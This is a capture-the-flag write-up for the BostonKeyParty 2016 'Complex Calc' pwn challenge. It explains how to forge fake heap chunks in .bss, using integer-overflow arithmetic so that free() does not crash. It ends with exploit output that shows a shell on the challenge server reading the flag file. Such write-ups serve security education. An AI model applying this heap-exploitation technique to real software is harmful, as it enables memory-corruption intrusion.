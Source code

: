 
## BostonKeyParty CTF 2016 - Complex Calc (Pwn 6pt)
##### 04/03 - 06/03/2015 (48hr)
___
### Description: 
we've fixed a tiny bug!

simplecalc.bostonkey.party 5500
___
### Solution
This code is identical with the simple calc. However the previous exploit doesn't work. We get 
segmentation fault upon free(). If we look at free(), there's no check if argument is NULL:
```assembly
.text:00000000004156D0 free            proc near ; CODE XREF: _i18n_number_rewrite+1EAp
.text:00000000004156D0                           ; _i18n_number_rewrite_0+1EAp ...
.text:00000000004156D0          mov     rax, cs:__free_hook
.text:00000000004156D7          test    rax, rax
.text:00000000004156DA          jnz     loc_41579A
.text:00000000004156E0          nop     dword ptr [rax]
.text:00000000004156E3          nop     word ptr [rax+rax+00h]
.text:00000000004156E9          mov     rax, [rdi-8]
.text:00000000004156ED          lea     rsi, [rdi-10h]
```
This means that ptr_10 must be a valid address pointing to the beginning of an allocated chunk on 
the heap:
```assembly
	.text:0000000000401383 ptr_10          = qword ptr -10h
```
This would be trivial is ASLR was disabled, or if we could leak an address from the heap. However,
both scenarios are false so we need another trick.

In order to solve the problem we have to see exactly why free() crashes and how slab allocator
works. If we see an allocated chunk in heap, there are 8 bytes before it (called chunk header)
which stores some metadata about the allocated region:
```
offset:	-16                    -8
		+----------------------+--------------------------+
		| previous chunk size  | Chunk size % 8 + 3 FLAGS |
	  0 +----------------------+--------------------------+
ptr -->	|                                                 |
		|                    User Data                    |
		|                                                 |
		+--------------------------------------------------
```
The minimum possible chunk size is 8 bytes, so we use the 3 LSBits as flags. If the LSBit is 
clear, we can find the previous chunk by using ptr - 16 as the previous chunk size. Slab
allocator keeps a linked list with all free chunks. Upon free() we must insert (and possibly
coallesce) the chunk in the free list.

If we somehow forge a fake chunk, we can make slab allocator believing that it's a valid chunk,
so it won't crash on free(). Remember our goal is to don't crash, not to really free some memory.

The only memory region that we can control and we know its address is in .bss. These are the
global variables used to store arguemnts for calculations. Thus we have to create a fake
chunk there and overwrite ptr_10 with an address within there.

Let's see the memory layout:
```assembly
.bss:00000000006C4A80             public add_1_6C4A80
.bss:00000000006C4A80 00 00 00 00 add_1_6C4A80 dd 0 	; DATA XREF: adds+13o
.bss:00000000006C4A80                                	; adds+5Er ...
.bss:00000000006C4A84 00 00 00 00 add_2_6C4A84 dd 0  	; DATA XREF: adds+40o
.bss:00000000006C4A84                               	; adds+69r ...
.....
.bss:00000000006C4AB4                                	; subs+69r ...
.bss:00000000006C4AB8 00 00 00 00 _sub_ans_6C4AB8 dd 0  ; DATA XREF: subs+98w
.bss:00000000006C4AB8                                  	; subs+9Er ...
.bss:00000000006C4ABC 00 00 00 00 align 20h
```

This is how we can forge our fake chunk: 
```
0x06C4A80: add_1    --> any value
0x06C4A84: add_2 	--> any value	(ignored, because LSbit is set)
0x06C4A88: add_res 	--> 0x21		(16B long, and LSbit is set)
0x06C4A8C: align	--> 0x00 		(0 by default; it must be 0)

0x06C4A90: div_1 	--> any value 	(the actual allocated chunk)
0x06C4A94: div_2	--> any value
0x06C4A98: div_ans 	--> any value
0x06C4A9C: align	--> any value

0x06C4AA0: mul_1 	--> any value	(next chunk header)
0x06C4AA4: mul_2 	--> any value	(ignored, because LSbit is set)
0x06C4AA8: mul_ans 	--> 0x21		(16B long, and LSbit is set)
0x06C4AAC: align	--> 0x00 		(0 by default; it must be 0)

0x06C4AB0: sub_1 	--> any value 	(the actual allocated chunk)
0x06C4AB4: sub_2 	--> any value
0x06C4AB8: sub_sub	--> any value
0x06C4ABC: align	--> any value
```
Now, we can have 2 valid chunks at .bss, so free() won't complain, because the header pointers
will be valid. Thus all we have to do, is to overwrite ptr_10 with 0x06C4A90 (which supposed to
be the address of the 1st fake chunk). Because the size of the chunk (0x21, will be valid).

The last challenge is how to set add_res and mul_ans to 0x21. Because input numbers must be 
> 0x27, we have to use some very large numbers that will overflow and the result will be
very small. So:
```
add_1   = 0xffffff80 
add_2   = 0xa1
add_res = 0x100000021 = 0x21

mul_1   = 0x80000001
mul_2   = 0x80000021
mul_ans = 0x4000001100000021 = 0x21
```
Now we can write our exploit and get the flag **BKPCTF{th3 l4st 1 2 3z}**
```
root@xrysa:~/ctf/bostonkeyparty# ./complex_calc_expl.py 
	[..... TRUNCATED FOR BREVITY .....]
	Options Menu: 
	 [1] Addition.
	 [2] Subtraction.
	 [3] Multiplication.
	 [4] Division.
	 [5] Save and Exit.
	=> whoami
		nobody
	ls -la
		total 1188
		drwxr-xr-x 2 root root   4096 Mar  5 03:37 .
		drwxr-xr-x 3 root root   4096 Mar  5 03:20 ..
		-rw-r--r-- 1 root root    220 Mar  5 03:20 .bash_logout
		-rw-r--r-- 1 root root   3637 Mar  5 03:20 .bashrc
		-rw-r--r-- 1 root root    675 Mar  5 03:20 .profile
		-rw-r--r-- 1 root root     24 Mar  5 03:37 key
		-rwxr-xr-x 1 root root     83 Mar  5 03:26 run.sh
		-rwxr-xr-x 1 root root 882266 Mar  5 03:25 simpleCalc_v2
		-rw-r--r-- 1 root root 302348 Mar  5 03:20 socat_1.7.2.3-1_amd64.deb
	cat key
		BKPCTF{th3 l4st 1 2 3z}
	exit
	*** Connection closed by remote host ***
```

___